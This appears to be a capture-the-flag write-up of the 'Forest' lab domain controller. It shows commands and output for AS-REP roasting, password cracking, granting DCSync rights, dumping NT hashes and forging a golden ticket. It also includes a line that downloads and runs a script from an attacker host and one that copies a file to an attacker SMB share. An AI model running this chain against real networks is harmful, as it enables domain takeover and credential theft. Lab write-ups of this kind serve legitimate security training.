




# Forest

## Machine Info



## Recon

### port

This machine is a domain controller.

- dns
- kerberos, ldap, rpc

```console
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2024-02-21 09:18:11Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49681/tcp open  msrpc        Microsoft Windows RPC
49699/tcp open  msrpc        Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 R2 (92%), Microsoft Windows Server 2016 (90%), Microsoft Windows Server 2012 or Server 2012 R2 (90%), Microsoft Windows 10 1607 (89%), Microsoft Windows 10 1511 (89%), Microsoft Windows Server 2022 (88%), Microsoft Windows Server 2016 build 10586 - 14393 (87%), Microsoft Windows Vista SP1 - SP2, Windows Server 2008 SP2, or Windows 7 (87%), Microsoft Windows Server 2008 R2 SP1 (87%), Microsoft Windows 10 (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows
```

```console
Host script results:
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2024-02-21T01:19:20-08:00
|_clock-skew: mean: 2h46m50s, deviation: 4h37m10s, median: 6m49s
| smb2-time:
|   date: 2024-02-21T09:19:17
|_  start_date: 2024-02-21T09:14:39
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
```

### domain names

- `htb.local`
- `forest.htb`
- `forest.htb.local`

### enum4linux-ng

```console
└─╼$ enum4linux-ng -A 10.129.116.142 | tee enum.out
ENUM4LINUX - next generation (v1.3.2)

 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 10.129.116.142
[*] Username ......... ''
[*] Random Username .. 'toyudltc'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 =======================================
|    Listener Scan on 10.129.116.142    |
 =======================================
[*] Checking LDAP
[+] LDAP is accessible on 389/tcp
[*] Checking LDAPS
[+] LDAPS is accessible on 636/tcp
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp

 ======================================================
|    Domain Information via LDAP for 10.129.116.142    |
 ======================================================
[*] Trying LDAP
[+] Appears to be root/parent DC
[+] Long domain name is: htb.local

 =======================================
|    Users via RPC on 10.129.116.142    |
 =======================================
[*] Enumerating users via 'querydispinfo'
[+] Found 31 user(s) via 'querydispinfo'
[*] Enumerating users via 'enumdomusers'
[+] Found 31 user(s) via 'enumdomusers'
[+] After merging user results we have 31 user(s) total:
...
```

### username enum

Collect usernames from enum4linux output:

```console
└─╼$ cat enum.out | grep username | grep -v '[+]' | awk -F' ' '{print $NF}' | sort -u
$331000-VK4ADACQNUCA
Administrator
DefaultAccount
Guest
HealthMailbox0659cc1
HealthMailbox670628e
HealthMailbox6ded678
HealthMailbox7108a4e
HealthMailbox83d6781
HealthMailbox968e74d
HealthMailboxb01ac64
HealthMailboxc0a90c9
HealthMailboxc3d7722
HealthMailboxfc9daad
HealthMailboxfd87238
SM_1b41c9286325456bb
SM_1ffab36a2f5f479cb
SM_2c8eef0a09b545acb
SM_681f53d4942840e18
SM_75a538d3025e4db9a
SM_7c96b981967141ebb
SM_9b69f1b9d2cc45549
SM_c75ee099d0a64c91b
SM_ca8c2ed5bdab4dc9b
andy
krbtgt
lucinda
mark
santi
sebastien
svc-alfresco
```

Filter out meaningful usernames:

```console
└─╼$ cat users.txt
Administrator
andy
krbtgt
lucinda
mark
santi
sebastien
svc-alfresco
```

## Foothold

### AS-REP Roasting

> **Reference**: [here](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast)
>
> ASREPRoast is a security attack that exploits users who lack the **Kerberos pre-authentication required attribute**. Essentially, this vulnerability allows attackers to request authentication for a user from the Domain Controller (DC) without needing the user's password. The DC then responds with a message encrypted with the user's password-derived key, which attackers can attempt to crack offline to discover the user's password.
>
> The main **requirements** for this attack are:
>
> - **Lack of Kerberos pre-authentication**: Target users must not have this security feature enabled.
> - **Connection to the Domain Controller (DC)**: Attackers need access to the DC to send requests and receive encrypted messages.
> - **Optional domain account**: Having a domain account allows attackers to more efficiently identify vulnerable users through LDAP queries. Without such an account, attackers must guess usernames.

Queries target domain for users with 'Do not require Kerberos preauthentication' set and export their TGTs for cracking by hashcat:

```console
$ impacket-GetNPUsers htb.local/ -no-pass -usersfile users.txt -dc-ip $IP
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB.LOCAL:b66dd270441a3bbbe4f3fd4c647c4481$5fdd328d3a8c8725252451d9621ad7488f544ca8792d74d82da506951c0b300c1a8a398d69ef19586b787add94079841ff02d654e44db5649eb5338b97d91ad5bb2ca1eb12bbd599b9b1e2c5f6a6ec2815ad3313168bf0c410dc3bd3da563e5a6e9306413b7fef47b892bbba67ee36426d2d7ba803c28f73bd1c2076e5e68fc4c8dcda91fc7b8510d4cb5a948cfe9810ff9fc6b79ba30a0e4374f10be1f160945c2596ba4468d33c10bf7a77f9a8851c27fce51ce5f37ef1f0b3d5a2d65b3bbff6467db6352e37ae1630c8a901ef3700fca892a190dc9b66c25759cb92521c3c95d5770ec69b
--------------------------------------------------------------------------------
$ hashcat -m 18200 -a 0 hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --show
$krb5asrep$23$svc-alfresco@HTB.LOCAL:b66dd270441a3bbbe4f3fd4c647c4481$5fdd328d3a8c8725252451d9621ad7488f544ca8792d74d82da506951c0b300c1a8a398d69ef19586b787add94079841ff02d654e44db5649eb5338b97d91ad5bb2ca1eb12bbd599b9b1e2c5f6a6ec2815ad3313168bf0c410dc3bd3da563e5a6e9306413b7fef47b892bbba67ee36426d2d7ba803c28f73bd1c2076e5e68fc4c8dcda91fc7b8510d4cb5a948cfe9810ff9fc6b79ba30a0e4374f10be1f160945c2596ba4468d33c10bf7a77f9a8851c27fce51ce5f37ef1f0b3d5a2d65b3bbff6467db6352e37ae1630c8a901ef3700fca892a190dc9b66c25759cb92521c3c95d5770ec69b:s3rvice

$ evil-winrm -i $IP -u svc-alfresco -p 's3rvice'
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami
htb\svc-alfresco
```

## Privilege Escalation

### BloodHound Enumeration

**Method1**: Execute `SharpHound.exe` on remote Windows

```console
*Evil-WinRM* PS C:\qwe> ./SharpHound.exe -c all
2024-02-22T10:50:00.6772236-08:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
...
2024-02-22T10:50:45.7653535-08:00|INFORMATION|Saving cache with stats: 118 ID to type mappings.
 118 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2024-02-22T10:50:45.7653535-08:00|INFORMATION|SharpHound Enumeration Completed at 10:50 AM on 2/22/2024! Happy Graphing!
*Evil-WinRM* PS C:\qwe> download 20240222105044_BloodHound.zip
Info: Downloading C:\qwe\20240222105044_BloodHound.zip to 20240222105044_BloodHound.zip
Info: Download successful!
```

**Method2**: Execute `bloodhound` script on local kali with user's credential

```console
$ bloodhound-python -d htb.local -ns $IP -u svc-alfresco -p s3rvice -c all --zip
INFO: Found AD domain: htb.local
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (FOREST.htb.local:88)] [Errno 113] No route to host
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Found 32 users
INFO: Found 76 groups
INFO: Found 2 gpos
INFO: Found 15 ous
INFO: Found 20 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: EXCH01.htb.local
INFO: Querying computer: FOREST.htb.local
INFO: Done in 01M 19S
INFO: Compressing output into 20240223040222_bloodhound.zip
```

**Method3**: Upload `SharpHound.ps1` and execute it on remote Windows

```console
*Evil-WinRM* PS C:\Users\svc-alfresco> iex(new-object net.webclient).downloadstring("http://10.10.16.24/SharpHound.ps1")
*Evil-WinRM* PS C:\Users\svc-alfresco> invoke-bloodhound -collectionmethod all -domain htb.local -ldapuser svc-alfresco -ldappass s3rvice
```

### Analyse on BloodHound

Start neo4j & bloodhound:

```console
$ sudo neo4j console
...
$ ./BloodHound --no-sandbox
...
```

Load data, and

- find shortest path from owned principles: 
  - ACCOUNT OPERATORS@HTB.LOCAL: This is a built-in security group in Active Directory that typically has permissions to manage user accounts.
  - GenericAll: This is a permission or Access Control Entry (ACE) that generally implies the holder has full control over the target object, including the ability to read, write, and manage, among other things.
  - EXCH01.HTB.LOCAL: This is the target object, which could be a server, computer, or another type of resource. In this context, it appears to be a server named EXCH01, likely running Microsoft Exchange as a mail server.

The relationship indicates that members of the ACCOUNT OPERATORS security group have GenericAll permissions on the EXCH01.HTB.LOCAL object within the HTB.LOCAL domain. In essence, this means that members of the ACCOUNT OPERATORS group can perform almost any operation on the EXCH01 server, including making configuration changes, modifying user permissions, and more.




- find shortest paths to domain admins:



**Found Details**:

1. Account Operators (group of svc-alfresco) has limited access to create admin accounts, while having full control to the domain EXCH01.HTB.LOCAL
2. The Exchange Windows Permisions (group of EXCH01.HTB.LOCAL) has WriteDacl permission -> its users can grant DCSync rights

> **WriteDacl Info**
> The members of the group EXCHANGE TRUSTED SUBSYSTEM@HTB.LOCAL have permissions to modify the DACL (Discretionary Access Control List) on the group EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL. With write access to the target object's DACL, you can grant yourself any privilege you want on the object.

Create domain user and add him into "Exchange Windows Permissions" group:

```console
*Evil-WinRM* PS C:\qwe> net user qwe ImQwe123 /add /domain
The command completed successfully.

*Evil-WinRM* PS C:\qwe> net group "Exchange Windows Permissions" /domain
Group name     Exchange Windows Permissions
Comment        This group contains Exchange servers that run Exchange cmdlets on behalf of users via the management service. Its members have permission to read and modify all Windows accounts and groups. This group should not be deleted.

Members

-------------------------------------------------------------------------------
The command completed successfully.

*Evil-WinRM* PS C:\qwe> net group "Exchange Windows Permissions" /domain /add qwe
The command completed successfully.

*Evil-WinRM* PS C:\qwe> net group "Exchange Windows Permissions" /domain
Group name     Exchange Windows Permissions
Comment        This group contains Exchange servers that run Exchange cmdlets on behalf of users via the management service. Its members have permission to read and modify all Windows accounts and groups. This group should not be deleted.

Members

-------------------------------------------------------------------------------
qwe
The command completed successfully.
```



- EXCHANGE TRUSTED SUBSYSTEM@HTB.LOCAL: This is typically a special security group used in Active Directory environments for Exchange services, with members of this security group being granted advanced permissions for Exchange-related tasks.

- WriteDacl: This is a permission that allows the entity holding it to modify the Discretionary Access Control List (DACL) of the target object. The DACL is part of a security descriptor that controls access to the object. With the WriteDacl permission, an attacker could change the permissions on the object, effectively granting themselves or other users any desired access rights.

- EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL: This is commonly an Active Directory security group used to manage permissions for Exchange servers and related components.

The relationship indicates that the EXCHANGE TRUSTED SUBSYSTEM security group has write permissions to the DACL of the EXCHANGE WINDOWS PERMISSIONS security group. This means it can change the permissions of this security group, potentially allowing for improper modifications to the Exchange environment or expanding the rights of certain users or groups.

`DCSync` right is a special privilege, typically referring to the ability of one entity (usually a domain controller) in Active Directory to have over another entity (such as a user or computer). An attacker with DCSync rights can mimic a domain controller and use directory replication services (like DRSUAPI) to request the synchronization of sensitive parts of user credentials (such as NTLM hashes and Kerberos tickets) from other domain controllers. This is a powerful attack vector because it allows the attacker to obtain user credentials without knowing the actual passwords of the users, which is sufficient for lateral movement or privilege escalation within the network.

**Method1**: Use `dacledit` to add DCSync right on kali

```console
$ dacledit.py -action 'write' -rights 'DCSync' -principal 'qwe' -dc-ip $IP -target-dn 'DC=HTB,DC=LOCAL' 'HTB'/'qwe':'ImQwe123'
Impacket v0.9.25.dev1+20230823.145202.4518279 - Copyright 2021 SecureAuth Corporation

[*] DACL backed up to dacledit-20240223-060254.bak
[*] DACL modified successfully!
```

**Method2**: Use powershell commands to grant created user with DCSync privilege on Windows

```console
*Evil-WinRM* PS C:\qwe> Import-Module C:\qwe\PowerView.ps1;$pass = convertto-securestring 'ImQwe123' -asplaintext -force;$cred = new-object system.management.automation.pscredential('HTB.LOCAL\qwe',$pass);Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=HTB,DC=LOCAL" -PrincipalIdentity qwe -Rights DCSync
```

After getting the `DCSync` privilege, then you can:

- dump nthash using secretdump on kali
- dump nthash using mimikatz locally on Windows

```console
└─╼$ impacket-secretsdump HTB.LOCAL/qwe:ImQwe123@10.129.23.226
Impacket v0.11.0 - Copyright 2023 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

- **Administrator's NTHash** -> evil-winrm, impacket-psexec&wmiexec to login
- **krbtgt's NTHash** -> create golden ticket -> to login domain controller with full priv of dc (krbtgt + sid -> ticket.py -> configure_krb5.py + ntpdate htb.local + export KRB5CCNAME -> evil-winrm)

```console
└─╼$ impacket-ticketer -nthash 819af826bb148e603acb0f33d17632f8 -domain-sid S-1-5-21-3072663084-364016917-1341370565-1147 -domain HTB.LOCAL Administrator
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for HTB.LOCAL/Administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncAsRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncASRepPart
[*] Saving ticket in Administrator.ccache
└─╼$ export KRB5CCNAME=Administrator.ccache
└─╼$ sudo ntpdate htb.local
2024-02-23 07:00:06.64162 (+0800) +167.070331 +/- 0.083832 htb.local 10.129.23.226 s1 no-leap
CLOCK: time stepped by 167.070331
└─╼$ python configure_krb5.py htb.local forest
[*] This script must be run as root
[*] Configuration Data:
[libdefault]
        default_realm = HTB.LOCAL
[realms]
        HTB.LOCAL = {
                kdc = forest.htb.local
                admin_server = forest.htb.local
        }
[domain_realm]
        htb.local = HTB.LOCAL
        .htb.local = HTB.LOCAL


[!] Above Configuration will overwrite /etc/krb5.conf, are you sure? [y/N] y
[+] /etc/krb5.conf has been configured
└─╼$ evil-winrm -i forest.htb.local -r htb.local
...
└─╼$ impacket-wmiexec -k -no-pass htb.local/administrator@forest
```

## Exploit Chain

port scan: dc -> enum4linux: usernames -> ASREP Roasting & hashcat: svc-alfresco credential -> bloodhound -> create new user with specific group & add DCSync priviliege -> dump admin nthash -> admin priv

## Beyond Root

### Download file from SMB

```console
*Evil-WinRM* PS C:\Users\svc-alfresco> net use \\10.10.16.24\qwe
*Evil-WinRM* PS C:\Users\svc-alfresco> copy xxx.zip \\10.10.16.24\qwe\
*Evil-WinRM* PS C:\Users\svc-alfresco> del xxx.zip; net use /d \\10.10.16.24\qwe
```

## AS-REP Roasting

AS-REP (Authentication Service Response) roasting can be performed against accounts that are configured to not require pre-authentication. In such cases, an attacker can request an AS-REP from the Key Distribution Center (KDC) without needing to provide a valid timestamp encrypted with the user's password hash. The AS-REP packet returned by the KDC will contain the user's encrypted credential information, which the attacker can then attempt to crack offline.
